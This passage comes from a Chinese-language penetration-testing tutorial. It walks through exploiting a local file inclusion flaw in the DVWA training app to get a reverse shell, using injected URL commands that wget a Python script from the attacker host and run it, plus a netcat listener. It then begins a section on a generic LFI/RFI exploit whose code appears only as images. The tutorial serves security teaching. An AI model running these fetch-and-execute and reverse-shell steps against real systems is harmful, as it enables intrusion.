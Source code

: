 如图所示，我们将创建一个用 Python 编写的攻击文件，并在攻击者的机器上提供该文件。因为，对于当前示例，攻击者和受害者都在同一台机器上，所以 URL 为`http://192.168.1.102`。利用漏洞文件的内容如下所示：

![](assets/7c01434c-6c79-4696-a69a-3724bb041b29.png)

下载攻击文件将完成攻击过程的第一步。第二步是执行它并返回侦听器。这可以通过访问以下 URL 来执行：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`

让我们来看看这个动作：

1.  下载 Python 漏洞并将其保存在`/tmp`文件夹中：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=wget http://192.168.1.102/exp.py -O /tmp/exp.py`
2.  验证是否已成功保存：

![](assets/30c5c1f9-b9d3-44b6-b144-48fc116ae178.png)

3.  在`444`：`nc -nlvp 4444`上启动`netcat`侦听器。
4.  启动调用`exp.py`脚本以连接回攻击者框的命令：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=python /tmp/exp.py`。

现在让我们看看我们的侦听器是否已获得 shell：

![](assets/67be60de-978e-41d0-9b6e-ca8163c01804.png)

正如我们从前面的截图中看到的，我们已经成功地获得了外壳。

# 开发利用开发（LFI+RFI）

到目前为止，我们已经研究了如何手动利用 LFI 漏洞。让我们继续并尝试开发一个通用漏洞，该漏洞将利用此应用程序和其他相同应用程序的 LFI 漏洞。在本节中，我们将看到如何编写一个令人敬畏的漏洞，利用 DVWA 应用程序中的 RFI 和 LFI 漏洞。虽然此漏洞是为 DVWA 应用程序编写的，但我已尝试使其通用化。通过某些调整，我们还可以在可能存在 LFI 和 RFI 漏洞的其他应用程序中尝试。

让我们安装先决条件：

```
pip install BeautifulSoup
pip install bs4
pip install selenium
sudo apt-get install libfontconfig
apt-get install npm
npm install ghostdriver
wget https://bitbucket.org/ariya/phantomjs/downloads/phantomjs-2.1.1-linux-x86_64.tar.bz2
tar xvjf phantomjs-2.1.1-linux-x86_64.tar.bz2
sudo cp phantomjs-2.1.1-linux-x86_64/bin/phantomjs /usr/bin/
sudo cp phantomjs-2.1.1-linux-x86_64/bin/phantomjs /usr/local/bin/
```

安装`phantomjs`后，我们需要在控制台上执行以下操作：**`unset QT_QPA_PLATFORM`**。这用于处理`phantomjs`在 Ubuntu 版本 16.04 上使用时抛出的错误，如下所示：`Message: Service phantomjs unexpectedly exited. Status code was: -6`。

# LFI/RFI 攻击代码

让我们来看看下面的代码，这些代码将利用 DVWA 的 LFI/RFI 漏洞：

![](assets/fa1254bb-ed18-4d07-a749-72f6d49e6574.png)
